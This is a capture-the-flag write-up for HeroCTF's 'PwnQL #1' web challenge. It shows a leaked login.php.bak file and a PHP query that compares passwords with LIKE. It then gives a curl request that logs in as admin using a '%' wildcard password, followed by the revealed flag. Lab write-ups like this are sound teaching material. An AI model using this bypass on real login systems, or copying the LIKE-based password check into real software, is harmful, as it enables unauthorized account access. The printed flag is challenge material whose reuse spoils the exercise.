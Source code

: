 # PwnQL #1

### Category

Web

### Description

Login as *admin* to get the flag.

URL : http://chall1.heroctf.fr:8080

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

After looking at the source code of the page, we can find a hint about a file named **login.php.bak**.

```html
<!-- Hello dev, do not forget to remove login.php.bak before committing your code. -->
```

We can download this file ! Let's look at this content.

```php
$sql = "SELECT * FROM users WHERE username = :username AND password LIKE :password;";
$sth = $db->prepare($sql, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
$sth->execute(array(':username' => $username, ':password' => $password));
$users = $sth->fetchAll();
```

The query is prepared, so we cannot do a SQL injection but the query itself is vulnerable. The *LIKE* function is used, so the percentage (%) will match any string of zero or more characters (any passwords).

```
username : admin
password : %

$ curl -s -X POST "http://localhost:8080/" -d "username=admin&password=%" | grep "Hero{"
    <label style='color: white;'>Welcome back admin ! Here is your flag : Hero{pwnQL_b4sic_0ne_129835}</label><br> 
```

### Flag

Hero{pwnQL_b4sic_0ne_129835}